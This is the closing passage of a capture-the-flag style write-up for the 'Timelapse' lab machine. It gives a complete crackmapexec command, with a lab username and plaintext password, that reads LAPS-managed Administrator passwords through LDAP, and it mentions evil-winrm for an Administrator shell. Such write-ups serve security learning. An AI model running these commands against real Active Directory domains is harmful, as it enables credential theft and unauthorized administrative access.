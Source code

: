 ```terminal
Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.                                
```

We see the user `svc_deploy` is part of the group `LAPS_Readers`.

LAPS or Local Administrator Password Solution is a way of managing local administrator passwords for computers on the domain, and if we have read permission we can retrieve the Administrator's password.

I searched for ways to get the password from LAPS and found this [article](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword) showcasing how to do so using `crackmapexec`

We need to run the following command:

```bash
crackmapexec ldap dc01.timelapse.htb -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --module laps
```

![](4.png)

We got the password, now we can use `evil-winrm` to get a shell as Administrator.

![](5.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).